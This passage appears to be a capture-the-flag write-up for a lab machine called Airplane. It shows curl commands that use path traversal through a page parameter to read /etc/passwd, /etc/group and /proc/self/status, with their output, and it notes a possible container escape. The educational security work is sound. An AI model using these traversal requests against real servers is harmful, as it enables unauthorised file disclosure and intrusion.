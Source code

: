 Well, that was a whole lot of nothing. `gobuster` came up empty. It seems the web server is only serving `index.html`. But wait... looking at the URL from our browser again, we see `?page=index.html`. A `page` parameter? My vulnerability senses are tingling! This smells like a Local File Inclusion (LFI) vulnerability.

Let's test this theory. Can we traverse the directory structure and read a classic file like `/etc/passwd`?

```bash
# Trying to read /etc/passwd using LFI
❯ curl 'http://airplane.thm:8000/?page=../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# ...
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hudson:x:1001:1001::/home/hudson:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

Bingo! We have LFI. We can read files from the system. From the output, we see two interesting users: `carlos` and `hudson`. Let's also grab the `/etc/group` file to see if there are any interesting groups.

```bash
# Reading the /etc/group file to find user groups
❯ curl 'http://airplane.thm:8000/?page=../../../../../etc/group'
root:x:0:
# ... (output truncated for brevity)
sudo:x:27:carlos
# ... (output truncated for brevity)
lxd:x:133:
carlos:x:1000:
hudson:x:1001:
```

Interesting! We see that `carlos` is in the `sudo` group, and there's also an `lxd` group. This often hints at a container escape scenario.

### Step 2: From LFI to Source Code

Since the web server is a Werkzeug/Python server, it must be running a Python application. The best way to figure out what's happening under the hood is to read the source code. We can use our LFI vulnerability to peek at the `/proc` filesystem. `/proc/self/` is a magical directory that points to the process handling our current request.

Let's check the status of the process to see who's running it.

```bash
# Checking the process status to find the user ID
❯ curl 'http://airplane.thm:8000/?page=../../../../../proc/self/status'
Name:	python3
Umask:	0022
State:	S (sleeping)
Tgid:	534
Ngid:	0
Pid:	534
PPid:	1
TracerPid:	0
Uid:	1001	1001	1001	1001
Gid:	1001	1001	1001	1001
# ... (output truncated)
```
